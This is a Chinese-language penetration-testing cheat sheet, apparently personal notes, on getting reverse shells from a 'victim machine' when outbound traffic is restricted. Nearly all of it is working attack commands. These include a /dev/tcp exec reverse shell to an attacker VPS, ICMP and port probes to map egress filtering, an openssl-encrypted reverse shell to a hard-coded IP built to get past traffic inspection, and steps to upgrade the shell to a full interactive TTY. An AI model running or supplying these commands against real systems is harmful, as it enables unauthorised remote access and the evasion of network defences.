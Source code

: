 1、无反弹命令的检查方法
```
受害机上执行：
whereis bash nc python php exec perl ruby telnet

用exec反弹shell：
0<&196;exec 196<>/dev/tcp/<your_vps>/1024; sh <&196 >&196 2>&196

其他反弹shell命令可通过浏览器插件Hack-Tools查看
```
2、禁止向外流量的检查方法
```
VPS上执行：
tcpdump -i eth0 -n -v icmp|grep -i "length 93"

受害机上执行：
ping -s 65 -c 1 xx.xx.xx.xx
```
3、限定向外端口的检查方法
```
VPS上执行：
nc -n -v -lp 3636

受害机上执行：
curl http://xx.xx.xx.xx:3636
```
4、流量审查的检查方法
```
第一步，在VPS上生成SSL证书的公钥/私钥对：
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
第二步，VPS监听反弹shell：
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
第三步，受害机上用openssl加密反弹shell的流量：
mkfifo /tmp/s;/bin/bash -i < /tmp/s 2>&1|openssl s_client -quiet -connect 121.4.92.66 > /tmp/s;rm /tmp/s
此时，VPS上成功获取哑shell
```
将哑shell变为功能齐全的交互式shell
```
第一步，在哑shell中执行：
python -c 'import pty;pty.spawn("/bin/bash")'
第二步：键入Ctrl-z，回到VPS的命令行中
第三步，在VPS中执行下述命令回到哑shell中：
stty raw -echo
fg
第四步，在哑shell中键入Ctrl-l，并执行：
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 54 columns 104
此时，VPS上的shell为功能基本齐全的shell
```

参考链接：  
https://www.freebuf.com/vuls/211847.html
